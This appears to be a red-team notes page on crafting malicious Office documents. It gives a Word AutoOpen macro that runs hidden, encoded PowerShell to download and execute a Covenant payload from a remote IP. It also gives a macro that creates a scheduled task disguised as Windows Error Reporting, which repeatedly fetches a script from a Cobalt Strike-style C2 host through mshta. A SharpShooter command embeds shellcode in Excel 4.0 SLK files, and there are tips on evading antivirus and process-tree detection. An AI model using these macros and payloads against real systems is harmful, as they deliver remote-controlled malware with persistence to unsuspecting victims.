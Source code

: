 ```yaml
---
title: "Malicious Documents"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

reference: https://blog.f-secure.com/dechaining-macros-and-evading-edr/

#### Word Macro's
##### Basic Office Macro using PowerShell
The example below shows a basic Microsoft Office Word macro, downloading and executing a covenant payload.
```vb
Sub AutoOpen()    
        Call Shell("powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgA5AC8AZgBpAGcAYQAnACkA")
End Sub
```

##### Creating a sheduled task using a Macro
The example code below shows the VB code that creates a sheduled task, which in turn downloads and executes a malicious SCT file using MSHTA. 
```vb
Sub Auto_open()
Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting"" /tr ""mshta.exe javascript:a=GetObject('script:http://cobaltstrike.c2/updates/microsoftftp.jpg').Exec();close();"" /mo 15 /F")
End Sub
```
***

#### Malicious HTA ToDo
Find good (working) examples

#### Excel 4.0 Macro
Note: As of 09-22-2020 Microsoft has integrated Excel 4.0 (XLM) into the ASMI interface. (https://techcommunity.microsoft.com/t5/office-365-blog/keeping-users-safe-and-productive-with-microsoft-365-apps-for/ba-p/1665728)
Excel 4.0 Marcos are a depricated feature within Excel. Even though functionality (and documentation) might be limited, this is still a very powerfull way of executing code. Because this form of Macro's is so old, mant modern AV solutions have trouble tracking and detecting these macros. A big advantage of these Macros are the fact that it doesn't spawn a (child) process, which defeats parent/child analysis.
The SharShooter framework from MDSec has the ability to generate slk files (Excel files with 4.0 Macros), while embedding your own shellcode. The example below shows the command needed to generate a SLK file with a msfvenom generated shellcode file.
```
python SharpShooter.py --payload slk --rawscfile shellcode.bin --output test
```
You might want to put some effor into making the Excel file look nice :)




#### VBA Stomping (Work Out)
reference: https://medium.com/walmartlabs/vba-stomping-advanced-maldoc-techniques-612c484ab278



